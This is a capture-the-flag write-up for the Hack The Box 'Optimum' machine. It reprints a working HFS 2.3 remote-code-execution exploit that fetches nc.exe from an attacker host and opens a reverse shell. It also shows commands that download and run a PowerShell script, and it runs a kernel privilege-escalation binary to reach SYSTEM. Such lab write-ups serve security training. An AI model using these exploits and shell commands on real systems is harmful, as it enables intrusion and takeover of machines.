

# Enumeration
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.8              
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 14:58 +08
Nmap scan report for 10.10.10.8
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   165.43 ms 10.10.14.1
2   165.50 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.69 seconds
```


It seems like a normal file server? Let’s search up more about this particular server version!

A quick Google search on ```HttpFileServer 2.3 Exploit``` shows this [RCE](https://www.exploit-db.com/exploits/39161) exploit. 

```bash
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
          
```
I will be using ```gedit``` to copy the code.

From the instructions of the code, it says that ```You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).```. 

So let’s locate ```nc.exe```.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# locate nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# cp /usr/share/windows-resources/binaries/nc.exe .
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Now we can start a netcat listener and run the exploit `python <exploit>.py <Target IP address> <Target Port Number>`
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nc -nvlp 443                                                        
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# python rce.py 10.10.10.8 80 
```
Yay, we got a shell!
```bash
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

22/05/2021  06:52 ��    <DIR>          .
22/05/2021  06:52 ��    <DIR>          ..
18/03/2017  03:11 ��           760.320 hfs.exe
18/03/2017  03:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.886.815.232 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          22/5/2021, 6:51:15 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.486 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.939 MB
Virtual Memory: In Use:    564 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
# Privilege Escalation

With the `systeminfo`, we can use [Sherlock](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-optimum/) or [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find exploits. Remember to add ```Find-Allvulns``` at the end of the PowerShell script.

## Windows Exploit Suggester

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# ./windows-exploit-suggester.py --database 2021-05-16-mssb.xlsx --systeminfo systeminfo.txt

[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done

```
## Sherlock

```bash
C:\Users\kostas\Desktop>powershell wget "http://10.10.14.4//Sherlock/Sherlock.ps1"
powershell wget "http://10.10.14.4//Sherlock/Sherlock.ps1"


StatusCode        : 200
StatusDescription : OK
Content           : {60, 35, 10, 10...}
RawContent        : HTTP/1.0 200 OK
                    Content-Length: 16678
                    Content-Type: application/octet-stream
                    Date: Sun, 16 May 2021 08:24:43 GMT
                    Last-Modified: Sun, 16 May 2021 08:21:53 GMT
                    Server: SimpleHTTP/0.6 Python/2.7.18...
Headers           : {[Content-Length, 16678], [Content-Type, application/octet-
                    stream], [Date, Sun, 16 May 2021 08:24:43 GMT], [Last-Modif
                    ied, Sun, 16 May 2021 08:21:53 GMT]...}
RawContentLength  : 16678

C:\Users\kostas\Desktop>powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4/Sherlock/Sherlock.ps1')
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4/Sherlock/Sherlock.ps1')


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```
After researching around, the vulnerability we are interested in should be ```MS16-098```.
```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# searchsploit ms16-098                                               
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Microsoft Windows 8.1 (x64) - 'RGNOBJ' Intege | windows_x86-64/local/41020.c
Microsoft Windows 8.1 (x64) - RGNOBJ Integer  | windows_x86-64/local/42435.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# searchsploit -m 41020.c             
  Exploit: Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)
      URL: https://www.exploit-db.com/exploits/41020
     Path: /usr/share/exploitdb/exploits/windows_x86-64/local/41020.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/shiro/HackTheBox/Optimum/41020.c
```
Viewing the contents of the code shows that there is an executable online that we can use [here](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)!

Restart our python server and then download the executable from the victim's machine.

```bash
C:\Users\kostas\Desktop>powershell wget "http://10.10.14.4/41020.exe" -outfile "exploit.exe"
powershell wget "http://10.10.14.4/41020.exe" -outfile "exploit.exe"
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14 ��    <DIR>          .
18/03/2017  03:14 ��    <DIR>          ..
18/03/2017  03:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.885.746.176 bytes free

C:\Users\kostas\Desktop>cd ../..
cd ../..

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```